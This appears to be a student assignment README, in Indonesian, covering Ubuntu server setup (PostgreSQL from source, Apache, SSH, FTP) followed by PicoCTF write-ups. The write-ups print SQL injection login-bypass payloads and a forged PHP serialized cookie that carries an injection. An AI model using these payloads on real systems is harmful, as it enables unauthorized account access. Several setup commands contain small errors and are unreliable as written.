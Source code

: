# Tugas B201
## Install Ubuntu Server 18.04

1. Buat boot dari Iso Ubuntu 18.04 (rufus)
2. Ikuti langkah-langkah nya



## Install PostgreSQL from source

1. Download PostgreSQL source

    ``` https://www.postgresql.org/ftp/source/v12.2/ ```

2. Install readline agar tidak error saat configure

    ```$ sudo apt-get install libreadline-dev ```

3. Extract tar dari hasil download
    
    ```$ tar postgresql-12.2.tar.gz ```

4. Masuk ke directory hasil extract an

    ```$ cd postgresql-12.2 ```

5.  Ketikkan perintah

    ```$ ./configure ```

6. Setelah selesai, compile & make file

    ```$ make ```

    lalu

    ```$ make install ```

7. Buat postgre user dan buat user data

    ```$ adduser postgres ```

    ```$ passwd postgres ```

    ```$ mkdir /usr/local/pgsql/data```

    ```$ chown postgres -R /usr/local/pgsql/data ```


8. Inisiasi postgreSQL data directory

    ```$ su -l postgres ```

    ```$ initdb -D /usr/local/pgsql/data ```

9. Include Path ke terminal
    ```$ echo 'export PATH=$PATH:/usr/local/pgsql/bin' > /etc/profile.d/postgres.sh```

9. Nyalakan service postgre

    ```$ pg_ctl start -D /usr/local/pgsql/data ```

10. Cek proses pada postgre

    ```$ ps -ef |grep -i postgres ```

11. Masuk CLI postgre

    ```$ pgsql ```

## Install Apache
1. ```$ sudo apt get update ```

2. ```$ sudo apt-get install apache2 ```

3. ```$ sudo ufw allow 'Apache'```

    Start Apache

4. ```$ sudo /etc/init.d/apache2 start``` 

    restart Apache

5. ```$ sudo /etc/init.d/apache2 restart```

    Stop Apache
6. ```$ sudo /etc/init.d/apache2 stop ```

    Status Apache
7. ```$ sudo /etc/init.d/apache2 status```

<br>

## Install SSH
1. ```$ sudo apt update ```

2.  ```$ sudo apt install openssh-server```

3. ```$ sudo ufw allow ssh ```

4. ```$ sudo /etc/init.d/ssh status```

<br>

## Install FTP
1. ```$ sudo apt update```

2. ```$ sudo apt install vsftpd```

3. ```$ sudo service vsftpd status```

4. Configure firewall

    ```$ sudo ufw allow 20/tcp ```
    
    ```$ sudo ufw allow 20/tcp ```




# PicoCTF Suryo 
## Iris-Name-Repo-1

``` https://2019shell1.picoctf.com/problem/27383/ ```

* Solusi Menggunakan SQL Injection pada kolom username

    ``` ' OR '1'='1' -- ```

## Iris-Name-Repo-2
* Pada kasus ini, telah difilter beberapa kata yang ada pada mysql

* Solusinya menset admin menjadi

    ``` admin'--- ```

    dan Password terserah

## Iris-Name-Repo-3
* Pada kasus ini, sql injection lebih ketat dari sebelumnya. Sehingga kata-kata yang biasa digunakan dalam sql injection tidak bisa digunakan.

* Solusi dari kasus ini adalah menggunakan algoritme enkripsi sederhana ROT13

    ``` ' BE 1=1 -- ```

## Cereal Hacker 1
* Pada masalah ini, kita diharuskan mencari cookie yang digunakan pada kredensial login.

* Setelah memasukkan username : ``` guest ``` dan password: ```guest``` (Brute Force), maka akan didapat cookies berupa

    ```TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D```

    <div style="color: blue;">
    (double urldecode + base64 decode)
    </div>

    didapatkan

    ``` O:11:"permissions":2{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";} ```

    apabila diset

    ``` O:11:"permissions":2{s:8:"username" s:5:"admin";s:8:"password";s:5:"' or '1'='1' --";}```

    akan muncul cookies baru

    ```TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJ0EnPSdBIjt9```

    dan saat dimasukkan ke halaman login maka akan muncul flag

















